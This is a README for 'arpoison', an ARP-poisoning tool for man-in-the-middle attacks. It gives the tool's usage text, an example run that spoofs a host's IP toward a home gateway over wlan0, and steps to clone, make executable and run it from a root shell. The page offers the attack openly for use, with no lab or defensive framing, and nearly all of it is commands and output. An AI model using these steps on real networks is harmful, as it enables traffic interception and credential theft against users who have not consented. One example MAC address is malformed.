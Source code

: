 # arpoison
ARP-poisoning tool

Can conduct mitm attacks spoofing an IP address, sending custom ARP-replies

### USAGE
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison --help
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre> 

### EXAMPLE
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -i wlan0 -s 192.168.1.15 -t 192.168.1.1 -m S8:7C:18:5B:9D:62
[i] Using interface wlan0
[+] spoof IP:	192.168.1.15 (192.168.1.15)
[+] target IP:	192.168.1.1 (_gateway)
[+] target MAC:	S8:7C:18:5B:9D:62
[+] my MAC:	A4:35:B0:84:0A:87
[i] Building ARP packet...done
[i] Enveloping Ethernet frame...done
[+] Sending stage 0
[+] Sending stage 1
[+] Sending stage 2
[+] Sending stage 3
[+] Sending stage 4
[+] Sending stage 5
</pre>

### DOWNLOAD
 Here the instruction to clone it:
<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~</b></font># git clone  https://github.com/b4lt0/arpoison.git
Cloning into &apos;arpoison&apos;...
remote: Counting objects: 39, done.
remote: Compressing objects: 100% (33/33), done.
remote: Total 39 (delta 13), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (39/39), done.
</pre>

 Move within the folder:

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~</b></font># cd arpoison/</pre>

 Make it executable:

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~/arpoison</b></font># chmod +x arpoison</pre>

### Run!

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~/arpoison</b></font># ./arpoison --help
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre>
